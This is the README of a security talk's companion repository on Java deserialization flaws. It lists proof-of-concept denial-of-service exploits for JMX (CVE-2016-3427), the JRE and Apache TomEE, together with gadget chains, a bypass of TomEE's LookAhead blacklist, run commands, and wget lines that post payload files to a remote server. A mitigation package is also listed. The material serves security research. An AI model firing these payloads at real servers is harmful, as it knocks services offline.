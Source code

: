 # Fixing the Java Serialization mess
Supporting source code for a [HackFest 2016 presentation](https://hackfest.ca/en/speakers/#ernst)

![Bonhomme Carnaval, Duke-style](bonhomme-duke.svg.png "Bonhomme Carnaval, Duke-style")

## Installation
```bash
mvn install
```

## Content

### POC for [CVE-2016-3427](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-3427)
Class `com.salesforce.trust.s11n.exploit.JmxClient`

Tries to:

1. Connect to the provided JMX server using the *long* connection string syntax
2. Connect to the provided JMX server using the *RMI* connection string syntax.
  * Sends the provided user name and password as credentials.
  * Sends a [Malicious Set instance](https://gist.github.com/coekie/a27cc406fc9f3dc7a70d) as credentials, in order to cause a Denial of Service attack on the JMX server. Only works when the server runs Java 8 u 77 (or earlier)
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.JmxClient hostName registryPort jmxPort userName
```

### POC for Denial of Service attack
Class `com.salesforce.trust.s11n.exploit.JreOutOfMemory`

Throws `OutOfMemoryError` when deserializingin doctored instances of various well known classes
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.JreOutOfMemory
```

### POC for Apache TomEE Denial of Service
Class `com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass`

Generates a 'regular' DOS gadget that can be used on older versions of [Apache TomEE](http://tomee.apache.org/apache-tomee.html) (before LookAhead validation was added, 1.7.3 or older)
#### Gadget chain: 
```
ObjectInputStream.readObject() 
  HashSet.readObject()
```
#### Usage:
Generate a binary file containing a DOS payload:
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass regular
```
Send the file to the remote TomEE server:
```bash
wget --post-file tomee1.ser http://remote-server:8080/tomee/ejb
```

### POC for bypassing [LookAhead Mitigation](http://www.ibm.com/developerworks/library/se-lookahead/) in [Apache TomEE](http://tomee.apache.org/apache-tomee.html) version 1.7.4
Class `com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass` can also generate a different gadget that can bypass TomEE mitigation.
TomEE is secure by default, since everything is black-listed when you install it.
#### File `conf/system.properties`
Upon install, the file contains these 2 lines:
```
tomee.serialization.class.blacklist = *
# tomee.serialization.class.whitelist = my.package
```

To enable OpenEJB, we want to restrict the black list to known malicious classes, and we want to include our legitimate classes in the white list:
```
tomee.serialization.class.blacklist = java.util.HashSet
tomee.serialization.class.whitelist = bonhomme.Carnaval, java, org.apache
```

This configuration provides an adequate mitigation against the DOS attack however, it can be bypassed by this new gadget:

#### Gadget chain: 
```
ObjectInputStream.readObject()
  EventImpl.readObject()
    OwbCustomObjectInputStream.readObject()
      HashSet.readObject()
```
#### Usage:
Generate a binary file containing a DOS payload (note the `bypass` flag):
```bash
java -cp target/hackfest-2016.jar:target/lib/commons-io-2.5.jar:target/lib/javaee-api-6.0-6.jar:target/lib/openejb-core-4.7.4.jar:target/lib/openwebbeans-impl-1.2.7.jar:target/lib/openwebbeans-spi-1.2.7.jar:target/lib/serp-1.15.1.jar:target/lib/tomcat-juli-8.5.5.jar:target/lib/tomcat-tribes-8.5.5.jar com.salesforce.trust.s11n.exploit.TomeeLookAheadBypass bypass
```
Send the file to the remote TomEE server:
```bash
wget --post-file tomee2.ser http://remote-server:8080/tomee/ejb
```

### POC for LookAhead Bytecode Blacklist
#### Input validation flow
![Flow chart](flow-chart.svg.png "Flow chart")
#### Code
Package `com.salesforce.trust.s11n.mitigation`